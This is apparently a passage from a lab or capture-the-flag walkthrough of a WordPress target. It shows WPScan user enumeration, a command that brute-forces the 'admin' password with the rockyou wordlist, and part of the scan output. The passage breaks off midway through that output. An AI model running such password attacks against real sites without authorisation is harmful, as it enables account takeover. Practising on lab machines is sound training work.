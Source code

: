 ```text
[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Oct  3 02:16:17 2022
[+] Requests Done: 65
[+] Cached Requests: 4
[+] Data Sent: 14.272 KB
[+] Data Received: 19.132 MB
[+] Memory used: 163.422 MB
[+] Elapsed time: 00:00:02
```

Brute-forcing the found password:

    wpscan --url http://<IP target>/blog -U admin -P /usr/share/wordlists/rockyou.txt

Results:

```text
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.239.250/blog/ [10.10.239.250]
[+] Started: Mon Oct  3 02:17:58 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.239.250/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.239.250/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.239.250/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
```